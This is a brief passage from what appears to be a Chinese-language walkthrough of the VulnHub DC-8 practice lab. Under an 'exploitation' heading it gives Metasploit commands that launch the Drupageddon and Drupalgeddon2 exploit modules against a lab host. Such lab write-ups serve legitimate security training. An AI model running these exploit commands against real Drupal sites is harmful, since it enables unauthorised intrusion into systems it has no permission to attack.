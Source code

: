 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/3.png)

---

# 中期-漏洞利用

```
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.141
run
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.141.141
run
```
